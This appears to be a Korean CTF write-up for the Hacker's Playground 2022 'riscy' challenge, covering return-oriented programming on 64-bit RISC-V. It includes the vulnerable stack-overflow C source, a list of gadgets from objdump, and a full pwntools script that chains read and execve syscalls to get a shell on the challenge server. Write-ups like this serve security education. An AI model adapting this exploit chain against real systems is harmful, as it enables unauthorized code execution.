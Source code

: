 ```yaml
---
layout: post
title: "[Hacker's Playground 2022] riscy"
subtitle: Hacker's playground 2022 riscy write-up
author: lcy8047
categories: write-up
banner:
  start_at: 8.5
  opacity: 0.618
  image: "https://user-images.githubusercontent.com/35690965/197031183-db3769d4-8dad-4957-ad03-c495dd53e67b.png"
  background: "#000"
  height: "100vh"
  min_height: "38vh"
  heading_style: "font-size: 4.25em; font-weight: bold; text-decoration: underline"
  subheading_style: "color: gold"
tags: sstf riscy rop risc-v
sidebar: []
---
```


64bit RISC-V 에서 ROP를 하는 문제였다.

```cpp
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <err.h>

void start() {
  printf("IOLI Crackme Level 0x00\n");
  printf("Password:");

  char buf[32];
  memset(buf, 0, sizeof(buf));
  read(0, buf, 256);
  
  if (!strcmp(buf, "250382"))
    printf("Password OK :)\n");
  else
    printf("Invalid Password!\n");
}

int main(int argc, char *argv[])
{
  setreuid(geteuid(), geteuid());
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);

  start();

  return 0;
}
```

- password가 틀렸다고 바로 강제종료하지 않기 때문에, `strcmp`로 비교하는건 아무의미가 없었다.
- RISC-V의 `assembly`와, 함수 호출규약, `objdump`로 나온 결과에서 필요한 gadget들을 잘 찾는 것이 중요했다.

## 사용한 gadget

- 스택에 있는 데이터를 ra, a0, a1, a2, a7 레지스터에 쓸 수 있어야 해서 `objdump`로 나온 코드에서 정규표현식( ex.    `.*a0.*sp\)` )을 써서 찾았다.

``` text
   49714:   6562                    ld  a0,24(sp)
   49716:   70a2                    ld  ra,40(sp)
   49718:   6145                    addi  sp,sp,48
   4971a:   8082                    ret

   41782:   832a                    mv  t1,a0
   41784:   60a6                    ld  ra,72(sp)
   41786:   6522                    ld  a0,8(sp)
   41788:   65c2                    ld  a1,16(sp)
   4178a:   6662                    ld  a2,24(sp)
   4178c:   7682                    ld  a3,32(sp)
   4178e:   7722                    ld  a4,40(sp)
   41790:   77c2                    ld  a5,48(sp)
   41792:   7862                    ld  a6,56(sp)
   41794:   6886                    ld  a7,64(sp)
   41796:   2546                    fld fa0,80(sp)
   41798:   25e6                    fld fa1,88(sp)
   4179a:   3606                    fld fa2,96(sp)
   4179c:   36a6                    fld fa3,104(sp)
   4179e:   3746                    fld fa4,112(sp)
   417a0:   37e6                    fld fa5,120(sp)
   417a2:   280a                    fld fa6,128(sp)
   417a4:   28aa                    fld fa7,136(sp)
   417a6:   6149                    addi    sp,sp,144
   417a8:   8302                    jr  t1

   25db8:   00000073                ecall
   25dbc:   8082                    ret
```

## 풀이

```python
from pwn import *
import time

context(os='linux', arch='riscv', bits=64)

e = ELF('~/sstf2022/riscy/release/src/target')

r = remote('riscy.sstf.site', 18223)
p = "~/sstf2022/riscy/release/deploy"

#r = process([p+"/qemu-riscv64", "-g", "9000", p+"/target"])

sh = p64(0x6c000)
ecall_ret = p64(0x25db8)
main = p64(0x104ae)
gadget1 = p64(0x49714)
gadget = p64(0x41782)

# set "/bin/sh" in data area by read syscall
dummy = b"A"*(40)
payload  = dummy
payload += gadget1
payload += b"A"*24
payload += ecall_ret# next return addr
payload += b"A"*8
payload += gadget
payload += b"A"*8   # dummy
payload += p64(0)   # a0
payload += sh       # a1
payload += p64(10)  # a2
payload += p64(0)   # a3
payload += p64(0)   # a4
payload += p64(0)   # a5
payload += p64(0)   # a6
payload += p64(63)  # a7 ( syscall - read )
payload += main     # ra
payload += p64(0)   # fa0
payload += p64(0)   # fa1
payload += p64(0)   # fa2
payload += p64(0)   # fa3
payload += p64(0)   # fa4
payload += p64(0)   # fa5
payload += p64(0)   # fa6
payload += p64(0)   # fa7
print( "len : ", len( payload ) )

r.send( payload )
time.sleep(1)

r.send(b"/bin/sh\x00")

# run shell by execve syscall
dummy = b"A"*(40)
payload  = dummy
payload += gadget1
payload += b"A"*24
payload += ecall_ret# next return addr
payload += b"A"*8
payload += gadget
payload += b"A"*8   # dummy
payload += sh       # a0
payload += p64(0)   # a1
payload += p64(0)   # a2
payload += p64(0)   # a3
payload += p64(0)   # a4
payload += p64(0)   # a5
payload += p64(0)   # a6
payload += p64(221) # a7 ( syscall - execve )
payload += main     # ra
payload += p64(0)   # fa0
payload += p64(0)   # fa1
payload += p64(0)   # fa2
payload += p64(0)   # fa3
payload += p64(0)   # fa4
payload += p64(0)   # fa5
payload += p64(0)   # fa6
payload += p64(0)   # fa7
print( "len : ", len( payload ) )

r.send( payload )

r.interactive()
```

## 참고

[Linux kernel system calls table](https://marcin.juszkiewicz.com.pl/download/tables/syscalls.html)

system call table

[RISC-V Instruction Set Specifications - riscv-isa-pages documentation](https://msyksphinz-self.github.io/riscv-isadoc/html/index.html)

RISC-V instruction

[The RISC-V Linux User's Manual](https://www.ocf.berkeley.edu/~qmn/linux/riscv.html)

RISC-V manual

[command-not-found.com - riscv64-linux-gnu-objdump](https://command-not-found.com/riscv64-linux-gnu-objdump)

RISC-V objdump install

[Return-Oriented Programming on RISC-V - Part 1](https://infosecwriteups.com/return-oriented-programming-on-risc-v-part-1-dd9817b52d2b)

RISC-V에서 ROP

[Ports/riscv64](https://en.altlinux.org/Ports/riscv64)
